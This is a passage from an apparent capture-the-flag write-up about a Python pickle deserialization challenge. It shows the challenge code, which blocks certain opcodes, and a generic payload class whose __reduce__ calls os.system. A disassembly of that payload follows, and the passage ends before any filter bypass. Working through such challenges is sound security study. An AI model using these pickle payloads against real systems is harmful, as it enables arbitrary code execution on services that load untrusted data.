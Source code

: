 The main challenge file is quite short, as follows:

```python
import pickle
import base64
import sys
import pickletools

def check_flag(flag_guess: str):
  """REDACTED FOR PRIVACY"""

cucumber = base64.b64decode(input("Give me your best pickle (base64 encoded) to taste! "))

for opcode, _, _ in pickletools.genops(cucumber):
  if opcode.code == "c" or opcode.code == "\x93":
    print("Eww! I can't eat dill pickles.")
    sys.exit(0)

pickle.loads(cucumber)
```

It is clear that the challenge is about exploiting pickle deserialization. Pickles are python objects serialized into a series of bytecode instructions, and by executing the same bytecode the same python object can be reconstructed elsewhere.  Since we're control the pickle that's loaded, we can pretty much execute arbitrary python code, and a quick google search will reveal many possible payloads. Here is an example:

```python:t.py
import pickle, os, base64

class P(object):
    def __reduce__(self):
        return (os.system, ("ls -l",))

p = pickle.dumps(P())
print(base64.b64encode(p))
```

We can disassemble the bytecode using the picketools module:

```python:t.py
import pickletools

...

print(pickletools.dis(p))
```

The result is as follows:

```plaintext
    0: \x80 PROTO      4
    2: \x95 FRAME      32
   11: \x8c SHORT_BINUNICODE 'posix'
   18: \x94 MEMOIZE    (as 0)
   19: \x8c SHORT_BINUNICODE 'system'
   27: \x94 MEMOIZE    (as 1)
   28: \x93 STACK_GLOBAL
   29: \x94 MEMOIZE    (as 2)
   30: \x8c SHORT_BINUNICODE 'ls -l'
   37: \x94 MEMOIZE    (as 3)
   38: \x85 TUPLE1
   39: \x94 MEMOIZE    (as 4)
   40: R    REDUCE
   41: \x94 MEMOIZE    (as 5)
   42: .    STOP
highest protocol among opcodes = 4
```
